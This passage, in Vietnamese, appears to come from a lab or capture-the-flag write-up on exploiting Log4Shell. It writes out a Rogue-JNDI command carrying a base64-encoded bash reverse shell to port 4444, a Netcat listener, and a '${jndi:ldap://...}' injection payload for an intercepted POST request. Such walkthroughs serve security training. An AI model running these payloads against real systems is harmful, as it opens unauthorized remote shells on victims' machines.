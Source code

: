 Lưu ý: Đối với writeup này, sử dụng cổng 4444 để nhận shell.

Sau khi payload đã được tạo, hãy khởi động ứng dụng Rogue-JNDI trong khi truyền payload như một phần của tùy chọn `--command` và địa chỉ IP `tun0` vào tùy chọn `--hostname`.

```
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,BASE64 STRING HERE}|{base64,-d}|{bash,-i}" --hostname "{YOUR TUN0 IP ADDRESS}"
```

Ví dụ:

```
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMzMvNDQ0NCAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "10.10.14.33"
```

![alt text](image-11.png)

Bây giờ máy chủ đang lắng nghe cục bộ trên cổng `389`, hãy mở một terminal khác và khởi động trình lắng nghe Netcat để ghi lại reverse shell.

```
nc -lvp 4444
```

Quay trở lại yêu cầu POST đã intercept, hãy thay đổi payload thành `${jndi:ldap://{Tun0 IP}:1389/o=tomcat}` và click vào `Send`.
